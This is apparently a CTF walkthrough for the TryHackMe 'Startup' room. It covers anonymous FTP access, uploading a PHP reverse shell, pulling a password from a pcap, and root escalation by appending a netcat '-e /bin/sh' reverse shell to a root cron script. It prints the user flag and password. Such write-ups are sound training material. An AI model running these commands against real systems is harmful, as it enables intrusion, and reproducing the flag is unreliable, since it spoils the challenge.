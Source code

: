 # [Startup](https://tryhackme.com/room/startup)

> Abuse traditional vulnerabilities via untraditional means.

## Scanning

first, we scan with nmap

```
nmap -A -T4 10.10.86.86
```

![image](https://user-images.githubusercontent.com/90561566/202391255-8dc00608-6faf-48b9-9685-4a30d1db64a7.png)

we can see 3 open ports are ftp (21), ssh (22) and http (80)

the most notable is ftp

![image](https://user-images.githubusercontent.com/90561566/202391799-6ad13366-75a7-4ae3-9cb2-f0ba4fc3ba61.png)

## FTP

```
ftp 10.10.86.86
Name (10.10.86.86:admin): anonymous
Password:
```

![image](https://user-images.githubusercontent.com/90561566/202393023-01179ee1-19c6-41de-8c15-8ecf2c31276c.png)

you maybe get an error like this

![image](https://user-images.githubusercontent.com/90561566/202394018-c2ac2dfa-adbc-4a7f-88e0-bc2badaa43b9.png)

the solution is `pass` mode on

![image](https://user-images.githubusercontent.com/90561566/202394119-34cb6715-5de9-45a8-b055-3b79cb627a68.png)

download all files to local and exit

```
get .test.log
get ftp
get important.jpg
get notice.txt
```

nothing here

![image](https://user-images.githubusercontent.com/90561566/202395916-1b4c32e9-2d9b-4ec1-a7d6-1f758dbb431c.png)

important.jpg

![image](https://user-images.githubusercontent.com/90561566/202396326-be353f36-eda8-4844-8101-532a4d1c2f16.png)

## HTTP

quick look at website

![image](https://user-images.githubusercontent.com/90561566/202397127-9841a316-e714-4bf0-81b8-a795da27cb3f.png)

nothing much here

![image](https://user-images.githubusercontent.com/90561566/202397328-5d64db2d-6ff3-48c6-a4cb-481a01c75e58.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.86.86/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/202398516-22378b17-b66c-44be-8805-d112a4a1e4f3.png)

go to /files

![image](https://user-images.githubusercontent.com/90561566/202399145-c8b89bf2-d1a9-4f4a-bfb0-fd3a6410e5d6.png)

it's the interface of ftp

## Exploitation

prepare a web shell and change to your ip

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

let's go back to fpt and upload our shell

```
cd ftp
put reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/202400688-dac15d49-fa39-445e-8be5-076656d4642c.png)

now we can see our shell here

![image](https://user-images.githubusercontent.com/90561566/202400761-176a6a53-185d-48b3-9fd8-a9359dd4cb08.png)

create listener and open file on browser

```
nc -vlnp 1234
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/90561566/202403261-dc874bcd-546b-431a-9da8-364ccfa5054a.png)

and the secret spicy soup recipe is `love`

![image](https://user-images.githubusercontent.com/90561566/202403567-a10149c0-fd42-41fa-923f-f4856d35d437.png)

let's see what in 2 suspicious folders here

![image](https://user-images.githubusercontent.com/90561566/202404109-b7fc3f73-c656-4fb9-adb5-9037b217f2b1.png)

hmm, a pcapng file, i will take it back to research

```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

![image](https://user-images.githubusercontent.com/90561566/202405450-17aa3512-4d2e-4c2e-90f1-f0a7f801dd0e.png)

![image](https://user-images.githubusercontent.com/90561566/202652583-89a53d9d-01f1-440f-a574-edefe8a19a67.png)

## Cracking

open captured file with wireshark

```
wireshark -r ./Downloads/suspicious.pcapng 
```

![image](https://user-images.githubusercontent.com/90561566/202406829-5de606d7-538a-43a4-9617-61d754207602.png)

our concern should be http protocol, i see someone has request a web shell in the past

![image](https://user-images.githubusercontent.com/90561566/202407904-4b2186e3-567b-48fa-bf75-39a635033ebb.png)

let's take a look at tcp traffic 4444 dump it all out to plain text

![image](https://user-images.githubusercontent.com/90561566/202653302-a4cf17c3-b7a9-4d46-8cbc-3461e8e3e445.png)

after lookup, i can see here is the password for lennie

![image](https://user-images.githubusercontent.com/90561566/202412311-520555ec-70b3-4438-8657-bacbe2c1416d.png)

or you can use `strings` if you don't familiar with wireshark

```
strings suspicious.pcapng
```

![image](https://user-images.githubusercontent.com/90561566/202652851-4eeee1dc-69fb-4cba-92f1-594b6ae0376e.png)

```
su lennie
c4ntg3t3n0ughsp1c3
```

![image](https://user-images.githubusercontent.com/90561566/202412520-ce00699b-cca7-4cd4-9f3a-74a7996e6aa5.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202412792-71e3fea3-c7e4-49ed-91fb-37422a35e690.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |

## Privilege Escalation

there is a scripts folder

![image](https://user-images.githubusercontent.com/90561566/202413237-9c3ac792-01fe-41c0-9663-10a8a9b6c774.png)

this file will run with root permission which is one key of privilege

![image](https://user-images.githubusercontent.com/90561566/202413562-ffb230c2-1725-48a0-8eb2-20b79d12204e.png)

it also run a file with lennie permission

![image](https://user-images.githubusercontent.com/90561566/202415242-39b20879-3392-446a-a212-7e1e929e9b92.png)

```
echo "nc 10.8.0.74 4444 -e /bin/sh" >> /etc/print.sh
```


| Flag | root.txt |
| --- | --- |
| Answer | <flag> |

